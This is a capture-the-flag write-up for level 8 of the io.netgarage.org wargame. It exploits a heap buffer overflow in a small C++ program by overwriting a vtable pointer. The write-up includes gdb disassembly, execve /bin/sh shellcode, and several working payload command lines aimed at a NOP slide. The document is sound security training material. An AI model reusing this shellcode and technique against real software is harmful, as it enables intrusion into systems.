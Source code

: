## Level 8:

```cpp
 1 // writen by bla for io.netgarage.org
 2 #include <iostream>
 3 #include <cstring>
 4 #include <unistd.h>
 5 
 6 class Number
 7 {
 8         public:
 9                 Number(int x) : number(x) {}
10                 void setAnnotation(char *a) {memcpy(annotation, a, strlen(a));}
11                 virtual int operator+(Number &r) {return number + r.number;}
12         private:
13                 char annotation[100];
14                 int number;
15 };
16 
17 
18 int main(int argc, char **argv)
19 {
20         if(argc < 2) _exit(1);
21 
22         Number *x = new Number(5);
23         Number *y = new Number(6);
24         Number &five = *x, &six = *y;
25 
26         five.setAnnotation(argv[1]);
27 
28         return six + five;
29 }
```

```console
(gdb) disass main
Dump of assembler code for function main:
   ...
=> 0x08048726 <+146>:	mov    (%eax),%edx
   0x08048728 <+148>:	mov    0x18(%esp),%eax
   0x0804872c <+152>:	mov    %eax,0x4(%esp)
   0x08048730 <+156>:	mov    0x1c(%esp),%eax
   0x08048734 <+160>:	mov    %eax,(%esp)
   0x08048737 <+163>:	call   *%edx
   0x08048739 <+165>:	add    $0x2c,%esp
   ...
```

```
shellcode = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```console
(gdb) r $(python -c 'print "\x10\xea\x04\x08" + "\x90"*81 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xbd\xfd\xff\xbf"')
```

After adjusting for unknown offset, I lowered the address by around 0x60, so it would connect to the NOP slide and executed shell. 

```console
(gdb) r $(python -c 'print "\xa8\xe9\x04\x08" + "\x90"*81 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xbc\xfd\xff\xbf"')
```

Using the same method I adjusted the pointers after unsetting the env variables.

```console
(gdb) r $(python -c 'print "\xa8\xe9\x04\x08" + "\x90"*81 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x67\xff\xff\xbf"')
```

This exact version of the payload doesn't work outside the gdb!
